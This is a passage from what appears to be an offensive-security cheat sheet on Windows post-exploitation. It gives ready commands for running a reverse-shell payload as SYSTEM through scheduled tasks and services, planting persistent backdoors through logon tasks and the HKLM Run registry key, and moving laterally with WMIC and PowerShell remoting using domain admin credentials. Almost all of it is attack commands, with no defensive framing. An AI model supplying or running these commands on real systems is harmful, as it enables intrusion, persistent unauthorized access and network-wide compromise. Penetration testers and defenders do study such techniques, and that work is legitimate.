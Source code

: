 ### Getting the Payload to Execute with High Privileges

1. **Scheduled Task Method**:
   ```cmd
   # Create task that runs as SYSTEM
   schtasks /create /tn "SystemTask" /tr "c:\path\to\reverse_shell.exe" /sc once /st 23:59 /ru "SYSTEM"
   schtasks /run /tn "SystemTask"
   ```

2. **Service Method**:
   ```cmd
   # Create service pointing to your payload
   sc create ReverseSvc binpath= "c:\path\to\reverse_shell.exe" start= auto
   sc start ReverseSvc
   ```

## Maintaining Access

### Creating Persistent Administrator Backdoors

```cmd
# Scheduled task persistence
schtasks /create /tn "Backdoor" /tr "c:\path\to\backdoor.exe" /sc onlogon /ru "SYSTEM"

# Registry persistence (Run key)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "c:\path\to\backdoor.exe"
```

## Lateral Movement with Administrator/SYSTEM Shells

### WMI for Remote Execution

```cmd
# Execute command on remote system
wmic /node:"remote-host" /user:"domain\admin" /password:"password" process call create "cmd.exe /c payload.exe"
```

### PowerShell Remoting

```powershell
# Enable PS Remoting if needed
Enable-PSRemoting -Force

# Connect to remote system
Enter-PSSession -ComputerName remote-host -Credential domain\admin

# Execute commands with Invoke-Command
Invoke-Command -ComputerName remote-host -Credential domain\admin -ScriptBlock {whoami}
```
